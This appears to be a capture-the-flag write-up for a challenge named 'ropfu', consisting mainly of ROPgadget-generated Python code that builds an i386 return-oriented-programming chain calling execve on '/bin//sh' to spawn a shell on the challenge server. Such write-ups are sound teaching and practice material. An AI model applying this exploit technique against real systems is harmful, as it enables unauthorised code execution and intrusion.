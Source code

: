 # ropfu
## Description

_--missing--_

# Solve
This challenged was solved by finding the offset of `rip` then using `ROPgadget` to generate a payload with the following: 

```bash
$ ROPgadget --binary vuln --ropchain
ROP chain generation
==========================================================

<snip>

- Step 5 -- Build the ROP chain

	#!/usr/bin/env python2
	# execve generated by ROPgadget

	from struct import pack

	# Padding goes here
	p = ''

	p += pack('<I', 0x080583c9) # pop edx ; pop ebx ; ret
	p += pack('<I', 0x080e5060) # @ .data
	p += pack('<I', 0x41414141) # padding
	p += pack('<I', 0x080b074a) # pop eax ; ret
	p += '/bin'
	p += pack('<I', 0x08059102) # mov dword ptr [edx], eax ; ret
	p += pack('<I', 0x080583c9) # pop edx ; pop ebx ; ret
	p += pack('<I', 0x080e5064) # @ .data + 4
	p += pack('<I', 0x41414141) # padding
	p += pack('<I', 0x080b074a) # pop eax ; ret
	p += '//sh'
	p += pack('<I', 0x08059102) # mov dword ptr [edx], eax ; ret
	p += pack('<I', 0x080583c9) # pop edx ; pop ebx ; ret
	p += pack('<I', 0x080e5068) # @ .data + 8
	p += pack('<I', 0x41414141) # padding
	p += pack('<I', 0x0804fb90) # xor eax, eax ; ret
	p += pack('<I', 0x08059102) # mov dword ptr [edx], eax ; ret
	p += pack('<I', 0x08049022) # pop ebx ; ret
	p += pack('<I', 0x080e5060) # @ .data
	p += pack('<I', 0x08049e39) # pop ecx ; ret
	p += pack('<I', 0x080e5068) # @ .data + 8
	p += pack('<I', 0x080583c9) # pop edx ; pop ebx ; ret
	p += pack('<I', 0x080e5068) # @ .data + 8
	p += pack('<I', 0x080e5060) # padding without overwrite ebx
	p += pack('<I', 0x0804fb90) # xor eax, eax ; ret
	p += pack('<I', 0x0808055e) # inc eax ; ret
	p += pack('<I', 0x0808055e) # inc eax ; ret
	p += pack('<I', 0x0808055e) # inc eax ; ret
	p += pack('<I', 0x0808055e) # inc eax ; ret
	p += pack('<I', 0x0808055e) # inc eax ; ret
	p += pack('<I', 0x0808055e) # inc eax ; ret
	p += pack('<I', 0x0808055e) # inc eax ; ret
	p += pack('<I', 0x0808055e) # inc eax ; ret
	p += pack('<I', 0x0808055e) # inc eax ; ret
	p += pack('<I', 0x0808055e) # inc eax ; ret
	p += pack('<I', 0x0808055e) # inc eax ; ret
	p += pack('<I', 0x0804a3d2) # int 0x80
```

This payload is then added to out script with the offset prepended to get a shell on the CTF server

## Script 
See the full solve script here -> [solve.py](./solve.py)